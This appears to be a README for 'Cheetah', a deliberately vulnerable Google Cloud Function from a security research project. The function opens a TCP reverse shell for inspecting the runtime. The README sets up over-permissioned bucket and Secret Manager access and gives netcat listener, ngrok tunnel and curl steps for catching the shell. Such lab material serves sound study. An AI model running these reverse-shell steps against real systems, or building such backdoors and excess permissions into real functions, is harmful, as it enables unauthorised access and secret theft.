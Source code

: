 # Puma Prey Cheetah

Cheetah is a Go function that can be deployed to the Google Cloud Platform to establish a TCP reverse shell for the purposes of introspecting the Cloud Functions container runtime.

## Installing Prerequisites

* [Google Cloud SDK](https://cloud.google.com/sdk/install)
* [Node.js v14.15.4 / NPM](https://nodejs.org/en/download/)
* [Function Deployment Service Account](https://cloud.google.com/functions/docs/concepts/iam#cloud_functions_service_account)

## Deploying The Function

### Serverless Framework

Follow [these steps](https://serverless.com/framework/docs/providers/google/guide/credentials/) to generate a credentials file. Deploy the function by specifying your GCP project ID and the **absolute path** of the credentials file.

```bash
cd /PATH/TO/cheetah/src/cheetah
npm install

# Optional: Create protected storage bucket that the function role has access to.
export WITH_BUCKET=true
export BUCKET_SUFFIX=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.

GCP_PROJECT=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID
GCP_CREDENTIALS_FILE=/ABSOLUTE/PATH/TO/.gcloud/keyfile.json
npx serverless deploy
```

In addition to deploying the function, if `WITH_BUCKET=true` and `BUCKET_SUFFIX` is set, this will create a private storage bucket. The function role will have unnecessary permissions to access the bucket.

To upload a secret image to the bucket, run the following:

```bash
gcloud auth activate-service-account --key-file /PATH/TO/.gcloud/keyfile.json
gsutil cp /PATH/TO/assets/* "gs://cheetah-$BUCKET_SUFFIX"
```

You can also use Cheetah to demonstrate how a compromised function could be used to access the GCP Secret Manager. In order to set this up:

* Enable "Secret Manager API" in the [API dashboard](https://console.cloud.google.com/apis/dashboard).
* Recreate your service account and add the "Secret Manager Admin" role.
* As [the Serverless Framework always uses the App Engine default service account](https://github.com/serverless/serverless-google-cloudfunctions/issues/161), 
* Run the following:

```bash
gcloud config set project YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID # If you receive a warning like the following, you can just ignore it: WARNING: You do not appear to have access to project [...] or it does not exist.

gcloud secrets create cheetah-database-password --replication-policy automatic
echo -n 'RG9ncyBhcmUgb3VyIGxpbmsgdG8gcGFyYWRpc2UuIFRoZXkgZG9uJ3Qga25vdyBldmlsIG9yIGplYWxvdXN5IG9yIGRpc2NvbnRlbnQu' | gcloud secrets versions add cheetah-database-password --data-file="-"
gcloud secrets add-iam-policy-binding cheetah-database-password --member serviceAccount:YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID@appspot.gserviceaccount.com --role roles/secretmanager.secretAccessor
```

### Native GCloud Commands

To deploy natively without the serverless framework, configure `gcloud` in the Terminal to authentication as the deployment service account. Then, deploy the function.

```bash
gcloud auth activate-service-account --key-file ~/.gcloud/keyfile.json
gcloud functions deploy cheetah --entry-point Cheetah --runtime go111 --trigger-http --service-account=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID@appspot.gserviceaccount.com
```

## Testing in GCP

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
script/cheetah --url-id YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details:

```bash
curl "https://$GCP_REGION-YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID.cloudfunctions.net/Cheetah?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER"
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file.

## Teardown

```bash
cd /PATH/TO/cheetah/src/cheetah
export SERVERLESS_CHEETAH_BUCKET=$(gsutil ls gs://sls-cheetah-dev*)
gsutil rm $SERVERLESS_CHEETAH_BUCKET**
GCP_PROJECT=YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID
GCP_CREDENTIALS_FILE=/ABSOLUTE/PATH/TO/.gcloud/keyfile.json
npx serverless remove
```

## Linting

```bash
cd /PATH/TO/cheetah/src/cheetah
go get -u golang.org/x/lint/golint
npm run lint
```

## Learning More

Read [documentation](docs) on what you can accomplish once you connect to the runtime via Cheetah.

## Serverless Go Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template google-go --path cheetah
```

## Exploring Serverless

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/google/) for more information.
